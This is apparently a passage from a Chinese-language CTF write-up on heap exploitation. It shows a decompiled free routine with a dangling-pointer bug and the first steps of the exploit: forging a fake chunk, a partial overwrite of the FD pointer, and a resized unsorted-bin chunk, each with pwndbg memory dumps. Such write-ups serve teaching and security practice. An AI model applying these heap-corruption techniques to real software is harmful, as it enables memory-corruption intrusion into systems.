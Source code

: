 在 Free 功能中存在 指针未置零而造成的悬挂指针。

```c
void free_chunk()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]@1

  printf("\nEnter index :");
  __isoc99_scanf("%d", &v0);
  if ( v0 <= 0x13 )
    free(heap_ptrs[(unsigned __int64)v0]);
}
```



### 第一步

首先伪造一个 chunk  ，chunk的大小为0x61。紧接着我们利用 partial overwrite 将 FD 指向伪造的chunk（当然，这里我们也可以用 UAF 完成）。

伪造 chunk size

```bash
pwndbg>
0x555555757050: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757060: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757070: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757080: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757090: 0x41414141      0x41414141      0x61    0x0     <----------
```

这里，我们 free 掉 chunk 1，这个时候我们能获得一个 unsortbin

```
0x555555757020 PREV_INUSE {
  prev_size = 0x0,
  size = 0xd1,
  fd = 0x7ffff7dd1b58 <main_arena+88>,
  bk = 0x7ffff7dd1b58 <main_arena+88>,
  fd_nextsize = 0x4141414141414141,
  bk_nextsize = 0x4141414141414141
}
```

接着，我们重分配 0xd1 这块 chunk，以及修改其 size 为0x71

```
pwndbg> x/40ag 0x555555757020
0x555555757020: 0x4141414141414141      0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
```
